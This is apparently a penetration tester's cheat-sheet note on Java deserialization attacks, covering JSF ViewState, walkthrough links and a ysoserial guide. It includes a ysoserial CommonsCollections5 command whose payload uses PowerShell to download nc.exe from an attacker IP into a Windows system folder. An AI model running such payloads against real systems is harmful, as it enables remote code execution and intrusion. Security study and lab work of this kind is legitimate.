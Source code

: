 
Decompiler: `jd-gui`

# Serialised Java Data

Magic Bytes: `AC ED`
Common extensions: `javax.faces.ViewState`
Common URI file name: `.faces`

# Guide

1. ViewState can be decoded for information
## Walkthrough

1. [Exploiting blind Java deserialization with Burp and Ysoserial – n00py Blog](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
2. [Tricking blind Java deserialization for a treat – Security Café](https://securitycafe.ro/2017/11/03/tricking-java-serialization-for-a-treat/)
3. [Hack The Box - Arkham - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/arkham/#jsf-viewstate-deserialization-vulnerability) Encrypted usage

## Interesting links

- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Exploiting blind Java deserialization with Burp and Ysoserial](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
- [How i found a 1500$ worth Deserialization vulnerability](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Encrypted Java Serialized RCE](https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d)
## Guide

### Deserialization Attack

YSOSerial.jar:
`wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial.jar`

This tool requires an important piece of information: a payload. See the walkthroughs above as the most time it will be blind. Hopefully in enumeration and recon a file or maybe Java Class.

````
java -jar ysoserial.jar CommonsCollections5 'cmd.exe /c powershell -c Invoke-WebRequest -Uri "http://10.10.xx.xx/nc.exe" -OutFile "C:\windows\system32\spool\drivers\color\nc.exe"' > uploadnc.payload
````

Send the payload to the input which desterilises to execute. 

## Execute System Commands in Java

[Java Runtime.getRuntime(): getting output from executing a command line program - Stack Overflow](https://stackoverflow.com/questions/5711084/java-runtime-getruntime-getting-output-from-executing-a-command-line-program/20624914#20624914)